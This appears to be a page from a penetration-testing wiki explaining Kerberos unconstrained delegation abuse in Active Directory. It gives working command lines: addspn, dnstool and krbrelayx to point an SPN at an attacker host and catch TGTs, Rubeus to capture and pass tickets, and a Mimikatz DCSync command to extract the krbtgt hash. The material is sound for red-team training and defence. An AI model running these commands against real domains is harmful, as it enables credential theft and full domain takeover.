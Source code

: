 # (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](../../mitm-and-coerced-authentications/ms-rprn.md), [MS-EFSR abuse (petitpotam)](../../mitm-and-coerced-authentications/ms-efsr.md), [MS-FSRVP abuse (shadowcoerce)](../../mitm-and-coerced-authentications/ms-fsrvp.md), r [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../builtin-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase FQDN + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase FQDN + `host` + lowercase FQDN hostname without the trailing `$` = `DOMAIN.LOCALhostcomputer.domain.local`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange), [PetitPotam](../../mitm-and-coerced-authentications/ms-efsr.md)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.

The TGT will then be usable with [Pass the Ticket](../ptt.md) (to act as the victim) or with [S4U2self abuse](s4u2self-abuse.md) (to obtain local admin privileges over the victim).
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

Once the TGT is injected, it can natively be





&#x20;used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}

